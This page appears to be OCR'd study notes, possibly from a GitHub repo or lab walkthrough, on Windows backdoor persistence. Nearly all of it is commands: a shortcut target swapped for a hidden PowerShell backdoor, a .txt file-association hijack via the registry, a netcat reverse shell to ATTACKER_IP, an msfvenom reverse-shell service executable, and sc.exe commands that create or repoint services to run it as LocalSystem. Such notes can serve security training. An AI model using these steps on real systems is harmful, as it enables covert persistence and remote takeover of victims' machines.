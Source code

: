 C:\Windows\System32\calc.exe<br>
### Edit Shortcut Target
### Note: you may need to update the icon after this to be more sneaky.

powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1<br>

# Hijacking File Associations
## Basically this way we can get our backdoor to get executed everytime a certain file extension is opened!

### Sample Backdoor File
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"<br>
C:\Windows\system32\NOTEPAD.EXE $args[0]<br>
Find Extenions Prog Id In Registry Editor<br>
Note: .txt is example<br>

Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Classes\.txt<br>
The ProgID is (Default)-fields Data-value<br>

## Find Shell Command Of The ProgId In Registry Editor
Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Classes\{PROGID}<br>
Change shell/open/command entry to execute our backdoor<br>

powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1<br>
# Services Create
Generate Service Executable (Eg With Msfvenom)<br>
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe<br>
## Create Service And Start It
sc.exe create service2 binPath= "C:\windows\rev-svc.exe" start= auto<br>
sc.exe start service2<br>
 
## Service Modify
### The plan is to find a stopped service that has STARTTYPE automatic, SERVICESTART_NAME is the user account which service runs on

### Find A Stopped Service
sc.exe query state=all<br>
See Service Properties<br>
sc.exe qc Service3<br>
### Edit Service
sc.exe config service3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"<br>
 
